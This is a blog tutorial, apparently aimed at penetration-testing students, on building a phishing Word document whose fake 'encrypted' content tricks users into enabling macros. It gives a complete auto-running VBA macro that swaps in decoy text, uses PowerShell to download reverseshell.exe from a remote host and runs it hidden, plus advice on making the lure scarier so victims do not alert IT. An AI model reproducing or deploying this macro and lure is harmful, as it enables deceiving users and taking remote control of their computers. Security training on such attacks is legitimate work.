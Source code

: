 
---
title: "Create A Phishing Word Document With Macros To Get A Reverse Shell"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - Tutorials
tags:
  - cyber security
  - penetration testing
  - oscp
---

## High Level

This post goes hand in hand with How To Make A Reverse Shell With Microsoft Word Macros since this post will not be covering the macro part required for the actual reverse shell. It will however include the complete macro below, just without explanation of the parts not covered in this post. Instead, this post will go over convincing techniques to trick users into enabling macros. By presenting some kind of "masked" information we can convince the user to enable macros under the guise of unmasking said information. In reality, we are taking advantage of someone's uncomfortability with technology, presenting them with scary looking text, and instructing them that the only way to see what they intending to click on is by enabling macros. By leveraging VBA we can essentially swap out all the information on the screen for a predefined other set of information. To the user they are "decrypting" the information. To us, we are swapping out text that looks scary for something they are expecting, running our reverse shell, and all because the user thinks they need to enable macros to see the information. You can see where your creativity will come into play in your pursaviness to get someone to click on the right thing. In this scenario we are going to demonstrate a very non-creative way of phishing simply for education streamlining. We will leave the creativity up to you.

## "Encrypted" Text

The first step is purely phishing based. In a new Word document start to put together what you think is a convincing appearance that someone needs to "decrypt" in some way to be able to see the information they want. This could include incorprating things like: a long string of bas64 text, some sayings about this message being encrypted, blurred or fuzzy text, and pictures or watermarks referring to some kind of encryption class. In the example below you can see a very bare bones template. The more convincing and scary your phishing tactics are the more likely someone will enable all content without question.

## Insert Picture Here

## The Switch

Once our target enables all content we need to visually switch the text so that it appears as if the document really has been decrypted. This is not only so that the user does not have any concerns or contact their IT Admin, but also so that the target will leave the document up and running long enough for our shell to connect. Copy your encrypted text temporarily and begin building what text the user expected to see. For a fake job application you would include contents of a fake resume as to not raise suspicions. Select all of your decrypted text and go to Insert --> Quick Parts --> AutoTexts --> Save Selection to AutoText Gallery. While in "Create New Building Block" create and remember a unqiue name and select OK. Remove your decrypted text and replace it with the encypted text. Next, we will edit our existing macro to switch the text from encrypted to decrypted when macros are enabled.

## Editing Macro

```
Sub MyMacro()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("DecryptedText").Insert Where:=Selection.Range, RichText:=True
End Sub
```

We will be inserting this code into our already existing micro. Let us go through how it works and then you can see what the complete macro looks like. ActiveDocument.Content.Select selects all of the existing content, like a ctrl-a command, and is then deleted by Selection.Delete. Next, Word searches for our auto text entry which I have named DecryptedText. Switch out this name for whatever you named your auto text entry.

## Full Macro

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
   ActiveDocument.Content.Select
   Selection.Delete
   ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```
## Takeaways
Remember to save the document as .doc versus .docx or else this attack will not work properly. This macro still does not employ best practices by downloading the reverse shell instead of loading and executing in memory. For a complete post on this please checkout the blog post: INSERT LINK TO NEXT BLOG HERE
